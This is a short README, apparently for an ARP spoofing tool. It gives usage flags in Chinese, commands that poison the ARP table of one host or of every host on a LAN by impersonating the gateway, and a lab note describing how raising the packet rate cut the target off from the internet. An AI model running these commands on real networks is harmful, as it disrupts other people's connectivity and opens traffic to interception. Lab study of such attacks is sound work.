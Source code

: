 # ARP Spoofer    
Usage:    
arpspoof -i interface -t target_ip -s spoofing_host -l interval -g q/p

-i 接口
-t 目标IP地址
-s 源IP地址
-l ARP发包间隔，单位us
-g 免费ARP选项，q=arp request，p=arp reply 
    
1.攻击具体主机
伪装网络内网关MAC，发送给某个主机
./arpspoof.elf -i wlan0 -t 192.168.0.101 -s 192.168.0.1  -l 100 

2.攻击网络内所有主机
./arpspoof.elf -i wlan0 -t 192.168.0.1 -s 192.168.0.1 -l 100 -g p

在使用本例子做arp欺骗实验，将网关的MAC地址替换为本地MAC地址时，  
刚开始发现并没有成功，通过抓包发现，原来网关(192.168.0.1)一直在  
发送免费ARP广播，导致并没有成功覆盖目标主机的MAC地址，在本地加大  
了发送频率，将程序中延迟去掉，成功覆盖目标主机的ARP表，导致目标  
主机无法通过网关上网。    

